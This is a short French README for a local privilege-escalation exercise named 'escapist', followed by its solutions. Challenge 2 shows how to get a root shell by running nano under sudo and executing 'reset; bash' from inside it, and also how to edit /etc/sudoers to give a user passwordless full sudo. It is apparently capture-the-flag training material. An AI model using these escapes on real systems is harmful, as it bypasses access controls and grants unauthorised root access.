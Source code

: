 # escapist

Pour lancer le premier challenge : sudo ./Challengex.sh

L'objectif est de réussir à exécuter le binaire "escape" dans chaque épreuve









# Solution

Challenge 1 : nice /bin/escape 

Challenge 2 : sudo /usr/bin/nano readme \
	      ctrl+r ctrl+x \
	      reset; bash 1>&0 2>&0 \
		puis exécuter bin/escape

OU sudo /usr/bin/nano /etc/sudoers et modifier : PrivEscape ALL=(ALL) NOPASSWD:ALL puis exécuter bin/escape

